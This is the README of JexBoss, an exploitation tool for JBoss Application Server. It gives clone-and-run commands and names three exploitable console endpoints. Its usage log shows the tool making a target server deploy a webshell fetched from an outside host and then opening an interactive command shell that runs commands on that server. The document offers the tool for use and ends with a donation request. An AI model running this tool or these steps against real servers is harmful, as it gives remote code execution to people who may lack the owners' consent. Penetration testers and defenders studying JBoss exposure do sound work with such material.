 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python <= 2.7.x

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Usage example
----
* Check the file "demo.png"

```
$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py https://site-teste.com

 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	       [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell 
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - * 

 * https://site-teste.com: 

 Linux fwgw 2.6.32-431.29.2.el6.x86_64 #1 SMP Tue Sep 9 21:36:05 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /tmp 
total 35436
drwxrwxrwt.  4 root root     4096 Nov 24 16:36 .
dr-xr-xr-x. 22 root root     4096 Nov 23 03:26 ..
-rw-r--r--.  1 root root 34630995 Out 15 18:07 snortrules-snapshot-2962.tar.gz
-rw-r--r--.  1 root root       32 Out 16 14:51 snortrules-snapshot-2962.tar.gz.md5
-rw-------.  1 root root        0 Set 20 16:45 yum.log
-rw-------.  1 root root     2743 Set 20 17:18 yum_save_tx-2014-09-20-17-18nQiKVo.yumtx
-rw-------.  1 root root     1014 Out  6 00:33 yum_save_tx-2014-10-06-00-33vig5iT.yumtx
-rw-------.  1 root root      543 Out  6 02:14 yum_save_tx-2014-10-06-02-143CcA5k.yumtx
-rw-------.  1 root root    18568 Out 14 03:04 yum_save_tx-2014-10-14-03-04Q9ywQt.yumtx
-rw-------.  1 root root      315 Out 15 16:00 yum_save_tx-2014-10-15-16-004hKzCF.yumtx

[Type commands or "exit" to finish]
Shell>
```

Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com

Donate:
----
* Please consider making a donation to help improve this tool, including research to new versions of JBoss and zero days.

* Bitcoin Address:  14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C
* URI:  bitcoin:14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C?label=jexboss
